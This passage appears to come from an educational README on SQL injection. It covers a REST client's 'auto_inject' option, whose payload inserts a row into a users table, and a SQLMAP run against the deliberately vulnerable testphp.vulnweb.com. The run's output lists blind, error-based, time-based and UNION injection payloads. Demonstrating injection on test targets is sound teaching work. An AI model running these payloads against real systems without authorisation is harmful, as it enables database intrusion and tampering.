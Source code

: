 The code that runs when the user chooses to register or truncate the users table works fundamentally the same and should therefore be self explanatory. At the end, the rest client asks the user whether he wants to send another request. If he chooses to do so, the rest client restarts from the beginning and asks the user again what he wants to do. Otherwise, the program simply ends.
##### Auto Injection
The rest client provides the option to automatically perform an SQL injection within the username field of the login form. To do this, simply change the value of the "auto_inject" variable to "True" and choose the string that should be sent as the username to the webserver using the variable "auto_injection". Afterwards, run the rest client. An example is provided that inserts a new row into the database with the username "injection" and the password "successful".
```python {data-filename="my_data_safe.py"}
auto_inject = False
auto_injection = "'; INSERT INTO users (username, password) VALUES ('injection','successful'); COMMIT;--"
```
## SQLMAP
SQLMAP is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities. You can download it at [sqlmap.org](https://sqlmap.org/). To use it, open a command prompt window and navigate to the directory of your download or add the directory to PATH to execute SQLMAP commands from anywhere inside a command prompt window. By using the following command, the majority of useful parameters you can use with SQLMAP are displayed.
```{data-filename="Command Prompt"}
python sqlmap.py -h
```
##### Online Demonstration
The Website [testphp.vulnweb.com](http://testphp.vulnweb.com/) is specifically designed with SQL injection vulnerabilities to showcase the effectiveness of SQLMAP. The following command runs some basic tests against one of its pages to find vulnerable points. During testing, SQLMAP asks some questions based on what it finds. Just answer all of them with "y".
```{data-filename="Command Prompt"}
python sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1
```
The result looks something like this:
```{data-filename="Command Prompt"}
sqlmap identified the following injection point(s) with a total of 48 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 9216=9216

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: cat=1 AND GTID_SUBSET(CONCAT(0x7170717171,(SELECT (ELT(4223=4223,1))),0x7176717a71),4223)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cat=1 AND (SELECT 1838 FROM (SELECT(SLEEP(5)))rEFg)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170717171,0x54614e7844414f787847635761784c595a6a707349776d7269784d42797150417452585452624645,0x7176717a71),NULL,NULL-- -
---
[00:00:00] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.19.0, PHP 5.6.40
back-end DBMS: MySQL >= 5.6
[00:00:00] [INFO] fetched data logged to text files under 'C:\Users\taagilu6\AppData\Local\sqlmap\output\testphp.vulnweb.com'
```